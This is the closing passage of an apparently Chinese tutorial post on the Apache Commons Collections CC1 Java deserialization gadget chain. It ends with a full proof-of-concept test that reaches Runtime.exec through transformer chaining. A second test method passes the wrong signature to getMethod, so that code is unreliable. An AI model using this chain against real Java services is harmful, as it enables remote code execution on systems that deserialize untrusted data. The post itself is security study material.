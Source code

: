 执行程序：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xClUkwicmh2xkm2ZCV3d6LYYWODdJv8V1XnsAkBq33KNK46EjFX3WajG84gPIqibib4BJ1UkXRAXOn9Q/640?wx_fmt=png&from=appmsg "")  
  
我们发现报错了，那么这是为什么？以及该怎么调用呢？师傅们有奖竞猜欧~  
  
交流群里揭晓答案，这里就略过了。  
  
最后献上完整简化代码如下：  
```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.junit.Test;
import sun.reflect.annotation.AnnotationType;
import java.io.IOException;
import java.lang.annotation.Annotation;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;
import static org.apache.commons.collections.functors.ConstantTransformer.*;
public class CC1Test1 {
    
    @Test
    
    public void test1() throws Exception {
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        });

        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "value");
        Map<Object, Object> decorated = TransformedMap.decorate(map, null, chainedTransformer);

        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class, decorated);
        CC.serialize(o);
        CC.unserialize("ser.bin");
    }
    
    @Test
    
    public void test2() throws Exception {
        Class clazz = Runtime.class;
        Method getRuntimeMethod = clazz.getMethod("getRuntime", String.class);
        Runtime invoke = (Runtime) getRuntimeMethod.invoke(null);

        Method execMethod = clazz.getMethod("exec", String.class);
        execMethod.invoke(invoke, "calc");
    }
}
```  
  